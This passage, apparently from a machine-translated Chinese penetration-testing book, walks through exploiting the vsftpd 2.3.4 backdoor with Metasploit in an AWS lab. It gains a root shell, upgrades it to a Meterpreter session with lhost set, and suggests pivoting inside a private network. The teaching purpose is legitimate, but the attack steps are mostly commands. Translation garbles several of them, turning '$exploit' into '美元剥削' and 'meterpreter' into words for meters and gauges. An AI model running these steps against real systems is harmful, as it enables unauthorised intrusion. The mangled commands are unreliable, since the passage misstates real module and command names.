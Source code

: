 $searchsploit vsftpd 2.3.4

这将为我们提供以下输出：

![Figure 9.34 – Searching for exploits ](image/Figure_9.34_B15630.jpg)

图 9.34-搜索漏洞

看起来有一个**Metasploit**模块，我们可以用来攻击我们的目标。我们现在有足够的信息来利用我们的目标，希望能够访问目标系统。

## 使用 Metasploit 进行整个系统接管

收集了所有关于目标的信息后，让我们开始换档并进入攻击模式。要攻击应用程序，我们需要启动 Metasploit 并配置模块以适应当前目标：

$use exploit/unix/ftp/vsftpd_234_ 后门

$set rhosts<target host=""></target>

美元剥削

这为我们提供了以下输出：

![Figure 9.35 – Getting a root shell on the target host ](image/Figure_9.35_B15630.jpg)

图 9.35–在目标主机上获取根 shell

如你所见，我们有一个根壳！这意味着我们可以完全控制我们的目标，并可以对系统上的所有内容进行更改。但是，我们的 shell 可以使用更多的**交互**。让我们玩一玩，将 shell 更新为**米表 shell**。为此，您可以通过在 shell 终端中键入单词**background**退出当前 shell。

现在我们回到 Metasploit 终端，让我们使用**shell_to_meterpreter**模块升级当前的 shell。以下内容将为我们选择和配置：

$use post/multi/manage/shell\u to\u 计量器

$set 会话 1

$set lhost

美元剥削

您将看到以下输出：

![Figure 9.36 – Upgrading to the Meterpreter shell ](image/Figure_9.36_B15630.jpg)

图 9.36–升级到流量计外壳

如您所见，我们现在有**2**个会话。第一个外壳是我们在利用**vsftpd**漏洞后获得的初始外壳，第二个外壳是我们新升级的外壳。要访问新的 MeterMeter 外壳，请使用以下命令：

$session-i 2

真棒–现在我们有了一个米计外壳，可以用来开发环境中更多的潜在问题。让我们继续讨论并执行一些常见的方法，您可以成功地利用这个特定的主机进行 more 道德黑客游戏。

## 开采后和弱化附加服务

太好了，我们现在可以访问我们的系统了——想看看我们还能做些什么吗？我们已经拥有根访问权限，因此这意味着我们可以对被攻击的目标执行几乎任何我们想要的操作。

在开始之前，让我们看看这个主机在什么网络上。现在我们已经利用了它，我们都可以访问专用 AWS 网络，并且可以使用**公共 IP**和**DNS**名称进行攻击。

重要提示

在真正的 pentest 中，您可以在专用 AWS 网络中进行轴心转换，并发现更多公众可能无法访问的主机！

